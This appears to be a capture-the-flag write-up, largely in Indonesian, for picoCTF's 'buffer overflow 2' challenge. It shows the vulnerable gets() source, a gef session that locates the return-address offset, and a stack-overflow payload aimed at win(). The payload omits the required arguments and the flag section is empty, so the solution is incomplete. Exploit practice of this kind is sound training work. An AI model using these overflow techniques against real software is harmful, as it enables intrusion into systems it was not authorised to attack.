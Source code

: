<h1>buffer overflow 2</h1>
<h3>Description</h3>
<p>Control the return address and arguments
This time you'll need to control the arguments to the function you return to! Can you get the flag from this <a href='https://artifacts.picoctf.net/c/144/vuln'>program</a>?
You can view source <a href='https://artifacts.picoctf.net/c/144/vuln.c'>here</a>. And connect with it using nc saturn.picoctf.net 50209</p>
<h3>Solution</h3>
<p>Pertama check fungsi dari program</p>

```console
gef➤  info func
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x080490e0  printf@plt
0x080490f0  gets@plt
0x08049100  fgets@plt
0x08049110  getegid@plt
0x08049120  puts@plt
0x08049130  exit@plt
0x08049140  __libc_start_main@plt
0x08049150  setvbuf@plt
0x08049160  fopen@plt
0x08049170  setresgid@plt
0x08049180  _start
0x080491c0  _dl_relocate_static_pie
0x080491d0  __x86.get_pc_thunk.bx
0x080491e0  deregister_tm_clones
0x08049220  register_tm_clones
0x08049260  __do_global_dtors_aux
0x08049290  frame_dummy
0x08049296  win
0x08049338  vuln
0x08049372  main
0x080493f0  __libc_csu_init
0x08049460  __libc_csu_fini
0x08049465  __x86.get_pc_thunk.bp
0x0804946c  _fini
```
<p>disana terdapat fungsi win() dengan address 0x08049296, dan dilihat dari source codenya</p>

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
<p>Dari source code ada gets() dari fungsi vuln yang bisa terjadi overflow, dan juga fungsi win() tanpa pemangilan fungsi, kita dapat memanfaatkan gets() pada vuln(), dengan mencari overflow gets()</p>

```console
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
Starting program: /home/xisco/Downloads/vuln <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
[Thread debugging using libthread_db enabled]
.................................................................................
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
.................................................................................
$eax   : 0xc9      
$ebx   : 0x62616162 ("baab"?)
$ecx   : 0xf7e2a9b8  →  0x00000000
$edx   : 0x0       
$esp   : 0xffffd3b0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0x080493f0  →  <__libc_csu_init+0000> endbr32 
$edi   : 0xf7ffcba0  →  0x00000000
$eip   : 0x62616164 ("daab"?)
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x62616164
.................................................................................
gef➤  pattern search 0x62616164
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
<p>Overflow terjadi pada offset 112, selanjutnya check fungsi dari program yaitu address dari win() = 0x08049296</p>
<pre>
payload=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x96\x92\x04\x08
</pre>
<p>Next, test payload ke gef</p>
<h3>Flag</h3>
<pre>

</pre>
